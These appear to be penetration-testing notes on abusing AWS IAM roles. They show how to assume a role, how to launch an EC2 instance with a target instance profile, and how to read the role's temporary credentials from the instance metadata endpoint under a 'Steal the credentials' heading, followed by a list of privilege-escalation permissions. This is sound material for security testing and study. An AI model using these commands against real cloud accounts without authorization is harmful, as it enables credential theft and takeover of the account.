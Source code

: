 ## Assume role via .aws/config file
Using EC2 IAM role
```
[target-role]
role_arn = arn:aws:iam::222222222222:role/efgh
credential_source = Ec2InstanceMetadata
```
then
```
aws sts get-caller-identity --profile target-role
```

## Assume role using EC2 Instance Profiles
* Find the InstanceProfileArn for the target role

```
aws iam list-instance-profiles-for-role --role-name my-target-role
```
* Launch an instance. Needs a lot of info to launch correctly
```
aws ec2 run-instances \
    --image-id $AMI_ID \
    --instance-type $INSTANCE_TYPE \
    --count 1 \
    --subnet-id $SUBNETID \
    --key-name $KEYPAIR_NAME \
    --security-group-ids $SECURITY_GROUPS \
    --iam-instance-profile "Arn=${INSTANCEPROFILE_ARN}" \
    --tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=pentest}]'
```
* Steal the credentials
```
hostname
aws sts get-caller-identity
curl -s http://169.254.169.254/latest/meta-data/iam/info/

export ROLE_NAME=`curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/`
echo "Instance role is ${ROLE_NAME}"
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/${ROLE_NAME}/
```

Not sure how instance credentials are different
```
curl -s http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

 Escalation Permissions
These are permissions that allow privilege escalation, though some are limited or require special circumstances.

From [Investigating Privilege Escalation Methods in AWS | Bishop Fox](https://bishopfox.com/blog/privilege-escalation-in-aws)
```
iam:CreatePolicyVersion
iam:SetDefaultPolicyVersion
iam:PassRole and ec2:RunInstances
iam:CreateAccessKey
iam:CreateLoginProfile
iam:UpdateLoginProfile
iam:AttachUserPolicy
iam:AttachGroupPolicy
iam:AttachRolePolicy
iam:PutUserPolicy
iam:PutGroupPolicy
iam:PutRolePolicy
```